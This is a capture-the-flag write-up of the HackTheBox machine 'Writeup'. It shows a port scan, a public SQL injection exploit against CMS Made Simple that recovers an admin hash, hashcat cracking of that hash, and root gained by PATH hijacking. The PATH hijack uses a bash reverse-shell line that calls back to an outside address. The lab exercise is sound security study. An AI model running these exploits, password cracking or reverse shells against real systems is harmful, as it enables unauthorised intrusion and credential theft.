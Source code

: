 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-06-10-writeup-hackthebox
tags:
- hackthebox
- linux
- path hijacking
- sql injection
title: Writeup @ HackTheBox
---
```


Writeup is a nice, medium difficulty machine on hackthebox, featuring the use of a publicly available sql injection exploit and a rather unique way to get root by using path poisoning.

## User Flag

We start by doing a tcp port scan on the box and find the following open ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 we find a website that is not giving us too much information – when we look at the output of nmap we can however see that robots.txt has an entry for /writeup/ so we go there and get the following website:

![](htb_writeup_index.png)

In the pages source we find a hint about the cms being used `<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />`. We start looking for publicly available exploits and find [CVE-2019-9053](https://www.exploit-db.com/exploits/46635), a recent sql injection vulnerability that allows us to retrieve the hash of the admin password:

```
python solve.py -u http://10.10.10.138/writeup/
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

To crack the hash we use hashcat and quickly recover the password:

```
hashcat64.exe -a0 -m20 -r rules.txt jkr.txt rockyou.txt
...
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

With these credentials we can log into the box via ssh and grab the user flag.

## Root Flag

Root is a bit tricky on this box. We copy over and run pspy64s and create another ssh session by logging in on another window, which shows the following code being executed:

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

By checking groups of our user with `id` we notice that we are in the staff group, which is unusual. It turns out that staff can write at "/usr/local/", which means that if we place a binary here that is called on logging in, ours will be called instead of the usual one with root permissions. We write a simple script that can give us a root reverse shell on execution:

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.46/6000 0>&1
```

After compiling it on our box and copying it over to "/usr/local/bin/uname" on the target, we run `chmod +x` to make it executable. We can use uname as a target binary because it is a program that will always be called on logging in. When logging in again we get a root shell.

Many thanks to [jkr](https://www.hackthebox.eu/home/users/profile/77141) for creating this fun box. Root was really challenging for me.